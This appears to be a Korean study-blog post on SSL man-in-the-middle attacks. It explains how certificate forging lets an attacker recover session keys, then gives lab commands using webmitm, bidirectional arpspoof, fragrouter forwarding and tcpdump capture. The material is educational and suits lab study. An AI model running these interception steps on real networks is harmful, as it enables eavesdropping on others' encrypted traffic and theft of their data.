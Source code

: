 ```yaml
---
title:  "SSL MITM" 

categories:
  - injection
tags:
  - [injection]

toc: true

date: 2022-11-04
last_modified_at: 2022-11-04
---
```


## SSL MITM

- SSL MITM
  - Key 동기화를 위해 인증서를 전달하는 과정이 공격자에게 노출됨

  - 공격자가 클라이언트와는 서버 역할, 서버와는 클라이언트 역할을 수행하며 key 동기화 과정을 진행

  - 클라이언트는 공격자의 위조된 인증서를 통해 획득한 공개키로 클라이언트가 생성한 비밀키를 전달

  - 공격자는 정상 서버에게 서버의 인증서를 통해 획득한 공개키로 공격자가 생성한 비밀키를 전달

  - 공격자는 양쪽 통신에 필요한 비밀키를 획득 하여 전달되는 요청/응답을 복호화

    ![화면 캡처 2022-11-04 202722](../../assets/img/화면 캡처 2022-11-04 202722.png)

#### 실습

- 공격자의 인증서 생성

  - kh 인증서는 서버에서 공격자로 

  - 새로운 위조된 인증서를 만들어서 공격대상

    ```
    # webmitm
    ```

    ![화면 캡처 2022-11-04 204842](../../assets/img/화면 캡처 2022-11-04 204842.png)

- 인증서 확인

  ```
  # ls -al webmitm.crt
  ```

  ![화면 캡처 2022-11-04 205005](../../assets/img/화면 캡처 2022-11-04 205005.png)

- 가짜 인증서 동작

  ```
  # webmitm -d
  ```

  ![화면 캡처 2022-11-04 210152](../../assets/img/화면 캡처 2022-11-04 210152.png)

- 가짜 웹서버

  ```
  # service apache2 restart
  # netstat -antup | grep webmitm
  ```

  ![화면 캡처 2022-11-04 210553](../../assets/img/화면 캡처 2022-11-04 210553.png)

- aspsoofing

  - 두번째 터미널

    ```
    # arpspoof -t 공격대상 웹서버		
    ```

    

  - 세번째 터미널

    ```
    # arpspoof -t 웹서버 공격대상
    ```

    

- 패킷 포워딩

  ```
  # fragrouter -B1
  ```

  ![화면 캡처 2022-11-04 211349](../../assets/img/화면 캡처 2022-11-04 211349.png)

- tcpdum를 이용하여 지나가는 SSL 패킷 캡쳐

  ```
  # tcpdump -i eth- -xX -w ssldump.pcap
  ```

  ![화면 캡처 2022-11-04 211312](../../assets/img/화면 캡처 2022-11-04 211312.png)